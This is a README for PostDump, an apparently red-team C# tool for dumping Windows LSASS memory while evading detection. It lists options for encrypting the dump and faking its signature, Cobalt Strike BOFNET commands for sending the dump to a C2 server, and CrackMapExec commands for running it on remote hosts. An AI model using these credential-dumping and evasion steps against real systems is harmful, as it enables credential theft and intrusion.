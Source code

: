 # PostDump

----

PostDump is a C# tool developt by COS team (CyberForce Offensive Security) of POST Luxembourg.

It is yet another simple tool to perform a LSASS memory dump using few technics to avoid detection.

![screenshot](resources/demo.png)

New PostDump version include C# / .NET implementation of the famous NanoDump's `NanoDumpWriteDump` function, which permit to dump most important LSASS modules only, without calling `MiniDumpWriteDump` Windows API function.
The dump logic code is saved under the `POSTMinidump` project, feel free to use it for your own C# / .NET project.

Such as NanoDump, you can encrypt or use an invalid signature for the minidump, but also use BOFNET to avoid touching disk and download file to CobaltStrike C2 directly.


## Usage

Dump LSASS:

    c:\Temp>PostDump.exe --help

    -o, --output        output filename [default: Machine_datetime.dmp]

    -e, --encrypt       Encrypt dump in-memory

    -s, --signature     Generate fake Minidump signature

    --snap              Use snapshot technic

    --fork              Use fork technic [default]

    --elevate-handle    Open a handle to LSASS with low privileges and duplicate it to gain higher privileges

    --help              Display this help screen.
  
    --version           Display version information.



## BOFNET

To use PostDump with Cobaltstrike, you must download and compile [BOFNET](https://github.com/CCob/BOF.NET):
- Build PostDump and place CommandLine.dll file into same folder as BOFNET.cna
- import the .cna file into your cobalt
- `beacon> bofnet_init`
- `beacon> bofnet_load PostDump.exe`
- `beacon> bofnet_execute POSTDump.BOFNET [args]`
- If you plan to NOT use BOFNET (eg: binary uploaded on a system), it is preferable to remove it from the project before compiling, otherwise you'll need the BOFNET.dll file on the system too.


## CME and LSASSY modules
- Both use embedded base64 binary and autoclean
- Will not work with --encrypt or --signature
- copy CME-module/postdump.py into your CME modules folder
- copy LSASSY-module/postdump.py into your LSASSY modules folder
- `crackmapexec smb x.x.x.x -u user -p 'password' -M postdump [--options]`
- `crackmapexec smb x.x.x.x -u user -p 'password' -M lsassy -o METHOD=postdump`


## Improvements idea
- Use Syscalls instead of Dinvoke
- AMSI/ETW patching
- Implement more dump technics (duplicate handle, seclogon ..)


## Compilation
- You can build using .NET Framework 4.5.1 as-is.
- Depending of the CLR version installed on the system where you execute PostDump, you may need to downgrade to .NET 3.5 [more info here](https://learn.microsoft.com/fr-fr/dotnet/framework/migration-guide/versions-and-dependencies)
- If you downgrade to .NET Framework 3.5, you'll need to downgrade CommandLineParser dependance too
- If you plan to NOT use BOFNET, it is preferable to remove it from the project before compiling, otherwise you'll need the BOFNET.dll file on the system to execute the tool.


## Credit
- TheWover for the C# implementation of [DInvoke](https://github.com/TheWover/DInvoke)
- [_EthicalChaos_](https://twitter.com/_EthicalChaos_) for the project [BOFNET](https://github.com/CCob/BOF.NET)
- [s4ntiago_p](https://twitter.com/s4ntiago_p) for the awesome NanoDump tool and its implementation of the lsass dump logic (among all other cool stuff)
